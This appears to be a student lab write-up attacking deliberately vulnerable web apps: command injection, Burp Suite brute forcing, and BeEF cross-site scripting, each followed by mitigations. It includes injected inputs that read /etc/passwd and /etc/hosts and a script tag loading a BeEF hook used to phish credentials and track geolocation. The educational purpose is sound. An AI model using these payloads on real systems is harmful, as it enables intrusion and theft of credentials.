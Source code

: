<h1>Web Application 1: Command Injection.</h1>
Navigate to /etc/passwd and view the file using the command injection file and Dot Dot Slash technique.
The original purpose of the app is to ping IP Addresses. 

![](/HW-15/Images/15-0%20Command%20Injection.png)

For instance, we ping 8.8.8.8.

Command:

        8.8.8.8
![](/hw-15/Images/15-0.5.png)
Command:

        8.8.8.8 && cat ../../../../../etc/passwd
![](/HW-15/Images/15-1%20Command%20Injection.png)

We can use the exact same technique to also use view the /etc/hosts with minimal changes to the syntax of the command

Command:

        8.8.8.8 && cat ../../../../../etc/hosts
![](/HW-15/Images/15-2%20Command%20Injection.png)

Mitigation:
The easiest way to stop command injection on any system is to rigoriously validate the input. Input validation in this context means that you make sure it does not accept anything except IP addresses when pinging a device. Priviliege control would also work. Make sure that the process initiating the command(ping in this case) doesn't have the prvilege to do anything else on the system (like look at the /etc/passwd and hosts files). 

<h1>Web Application 2: Brute Force</h1>

Our application:

![](/HW-15/Images/15-3%20Brute%20Force.png)
We need to break into this application with a brute force attack in Burp Suite. Capturing the packet of a login attempt gives us this:
![](/HW-15/Images/15-4%20Brute%20Force.png)
We then identify the login and password fields in the unencrypted packet.
![](/HW-15/Images/15-5%20Brute%20Force.png)
We have fortunately been given a list of previously leaked user IDs and passwords. We can load this up in our burp suite and use it to launch an attack. Adding these to our payload by copy and paste gives us the following list of possible user IDs:

![](/HW-15/Images/15-6%20Brute%20Force.png)

And we use this other payload for the perspective list of passwords:

![](/HW-15/Images/15-7%20Brute%20Force.png)

Now we are ready to start our attack, which gives us the following results:

![](/HW-15/Images/15-8%20Brute%20Force.png)

We now know that the sucessful login and password for our application is "tonystark" and "I am Iron Man". But we should test the login and password on our app to be sure.
Entering them in our app we get:

![](/HW-15/Images/15-9%20Brute%20Force.png)

Please note the same "Successful login! You really are Iron Man :)" response that our brute force attack returned. Now we can conclude that our brute force attack really did work and we now have access to the web application.

Mitigation: The first thing that needs to be done is limiting the number of times an IP address can attempt to login with the wrong password. The brute force attack used 100 attempts to try to login. Burp Suite wasn't able to find the correct set of creditials until the 65th time. If the application temporarily suspended the attacking IP addresses ability to attempt to log in with the wrong password it would at the very least make the attack take significantly longer. Doing so would also give the security team time to respond to such an alert.

<h1>Web Application 3: Cross Site Scripting(XSS)</h1>
Using the Browser Exploitation Framework (BeEF) to execute cross site scripting exploitation.

![](/HW-15/Images/15-10Beef.png)

First we will try to hook the DVWA with our beef malware in it's XSS.

![](/HW-15/Images/15-11%20Beef.png)

The command we want to exploit is:

        <script src="http://127.0.0.1:3000/hook.js"></script>

By placing that into the message of the book we can hook this other browser and exploit it.

![](/HW-15/Images/15-12%20Beef.png)

This results in a new IP address being added to the beef list of vulnerable browsers.

![](/HW-15/Images/15-13%20Beef.png)

From here we can use a variety of the exploits available in beef. The first one we used is a generic log in request. Entering our user and password gives them to the Beef Malware. 

![](/HW-15/Images/15-14%20Beef.png)

In this case I supplied the login for the Beef app, beef and feeb.

![](/HW-15/Images/15-15%20Beef.png)

Other exploits include sending a fake update bar, which tells us if the target clicks it.

![](/HW-15/Images/15-16%20Beef.png)

![](/HW-15/Images/15-17%20Beef.png)

Or we can get the target's geolocation data.

![](/HW-15/Images/15-18%20Beef.png)

I of course edited out the PID data.

Mitigation: Cross site scripting can be mitigated with largely the same strategy as mitigating command injection: validating input. The question of mitigating the Man-In-The-Browser attack that Beef in embodies is much more difficult. The best option to defeat Man-In-The-Browser attacks seems to be to ensure that your browser is up to date as much as possible. Otherwise you can train people to notice when their browsers are behaving in a sketchy or suspicious manner. Mitre suggests "restricting user permissions and addressing privilege escalation."
[Source](https://attack.mitre.org/mitigations/T1185/)